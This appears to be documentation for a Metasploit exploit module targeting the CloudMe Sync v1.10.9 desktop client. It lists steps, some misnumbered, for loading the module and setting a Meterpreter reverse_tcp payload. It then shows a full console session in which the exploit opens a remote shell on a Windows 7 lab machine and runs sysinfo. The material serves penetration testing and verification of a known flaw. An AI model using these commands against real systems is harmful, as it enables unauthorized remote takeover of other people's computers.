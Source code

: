 
## Verification Steps
    1. Install CloudMe for Desktop version `v1.10.9`
  2. Create a free account and start the applicaton
  6. Start `msfconsole`
    4. Do `use exploit/windows/misc/cloudme_sync`
    5. Do `set RHOST ip`
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

### CloudMe Sync client application on Windows 7 SP1

```
msf > use exploit/windows/misc/cloudme_sync 
msf exploit(windows/misc/cloudme_sync) > show options 

Module options (exploit/windows/misc/cloudme_sync):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  172.16.40.148    yes       The target address
   RPORT  8888             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.40.5      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   CloudMe Sync v1.10.9


msf exploit(windows/misc/cloudme_sync) > set RHOST 172.16.40.148
RHOST => 172.16.40.148
msf exploit(windows/misc/cloudme_sync) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cloudme_sync) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/misc/cloudme_sync) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (179779 bytes) to 172.16.40.148
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.148:57185) at 2018-02-19 12:35:21 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```